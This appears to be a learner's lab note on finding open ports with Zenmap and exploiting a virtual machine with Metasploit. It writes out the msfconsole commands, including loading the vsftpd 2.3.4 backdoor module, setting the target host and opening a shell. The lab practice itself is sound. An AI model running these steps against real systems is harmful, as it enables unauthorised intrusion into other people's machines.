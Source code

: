 # Finding open ports and exploiting them

Using Kali Linux and Metasploit (using virtual lab)

---
## 2025-08-14
**Steps:**  
- Open Zen map and scan for IP with quick scan.
- Find the IP of the virtual machine to exploit.
- Scan that IP for open ports with intense scan in Zen map.
- Select the vulnerability to exploit.
- Learn about that port and vulnerability from Rapid 7 on Google.

**Commands/Tools practiced:**  
```
`msfconsole`
 `search <open port>`
 example `search vsftpd 2.3.4`
 Interact with a module by name or index. For example **info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor**
 `use 1`
 `show options` ( to check requirements)
 (as per requirement)
 `set RHOSTS <IP of the victim pc>`
 `exploit`
 `ls` (for the list)
 `shell` (for proper format)
 `help`
 
```


![[../../../Screenshot (46).png]]

![[../../../Screenshot 2025-08-14 173107.png]]

![[../../../Screenshot 2025-08-14 173208.png]]